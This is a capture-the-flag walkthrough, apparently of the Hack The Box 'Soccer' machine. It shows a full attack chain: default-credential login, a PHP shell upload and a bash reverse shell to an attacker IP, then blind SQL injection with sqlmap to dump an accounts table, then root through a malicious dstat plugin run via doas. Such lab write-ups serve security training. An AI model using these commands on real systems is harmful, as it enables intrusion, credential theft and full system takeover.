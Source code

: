 # Enumeration
```
Nmap scan report for 10.10.11.194
Host is up (0.041s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```
The port 80 leads to a website called soccer.htb.
Using gobuster we find a directory called /tiny running tiny file manager.
![](attachment/c39697f0699b3df0f73c0be6d7239408.png)
Using default creds we get in 
`admin:admin@123`
We can upload a shell.php and use `bash -c 'bash -i >& /dev/tcp/10.10.14.37/9001 0>&1'` to get a shell:
![](attachment/d260e60676e5312dd19f5b0083581a43.png)
Enumerating files at /etc/nginx we find a vhost `http://soc-player.soccer.htb/check`
There is a blind sql after login:
It only shows true or false. So should use queries like `0 UNION select user,2,3 from mysql.user where user like 'a%'-- -`
So using sqlmap:
`sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3`

Now checking databases:
`sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -threads 10 -dbs`

Then finding tables:
`sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -threads 10 -D soccer_db --tables`
Here we found accounts table

Now dumping accounts table:
`sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -threads 10 -D soccer_db -T accounts --dump`
![](attachment/08dc4df0cc73c05afe784b8a2736c358.png)
Now logging in using ssh:
![](attachment/4449d4f53ab04d07e5e1f4c31992770f.png)

We found a group writeable file called dstat.
we also found an SUID binary called doas. It allows execution of commands as other users.
To find the config file: `find / 2>/dev/null | grep doas`
It seems we can run dstat as root.

Checking the plugins we can run in `/usr/share/dstat/`
We can also create a plugin in`/usr/local/share/dstat`
so creating a plugin called `dstat_shell.py` with
```python
import os; os.execv("/bin/sh", ["sh"])
```
Now we can run dstat plugin with `doas /usr/bin/dstat --shell`
![](attachment/96f4b91f944473bc345dfddfd56e1ebc.png)We get a root shell.

